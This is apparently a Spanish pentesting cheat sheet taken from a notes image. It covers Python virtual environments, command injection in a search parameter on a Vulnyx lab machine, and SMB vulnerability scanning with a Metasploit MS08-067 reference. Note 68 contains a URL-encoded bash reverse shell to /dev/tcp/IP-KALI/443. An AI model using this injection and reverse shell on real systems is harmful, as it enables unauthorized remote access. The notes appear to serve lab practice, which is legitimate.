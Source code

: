 ## 67.- Crear entornos virtuales

python3 -m venv nombre_entorno

Activar el entorno virtual

source nombre_entorno/bin/activate

Salir del Entorno Virtual

deactivate

Eliminar el Entorno Virtual

rm -rf nombre_entorno

Verificar si se eliminó

source nombre_entorno/bin/activate

Si te dice "No such file or directory", entonces ya está eliminado correctamente.

-------------------------------------------------------------------------------

## 68.- Si tengo un input de búsqueda entonces también puedo injectar código con ";" seguido de id o otros comandos.

Ejemplo máquina hackingstation de vulnyx

vamos probando algo así

hola;id
hola && 
;id

Lo encodeamos en burpsuite

URLENCODE: bash -c 'bash -i >& /dev/tcp/IP-KALI/443 0>&1'

entonces en la url colocamos:

http://192.168.42.149/exploitQuery.php?product=hola%3BURLENCODE

-------------------------------------------------------------------------------

## 69.- si tenemos una máquina con windows 7 o xp que tienen los siguientes puertos abiertos:

135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds

entonces manejamos el siguiente comando para verificar vulnerabilidades tanto como eternalBlue o :
Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)

sudo nmap -sV --script vuln -p135,139,445 --min-rate 6000 -vvv 10.0.2.8

puede ser vulnerable a 
ms08_067 ->  exploit/windows/smb/ms08_067_netapi
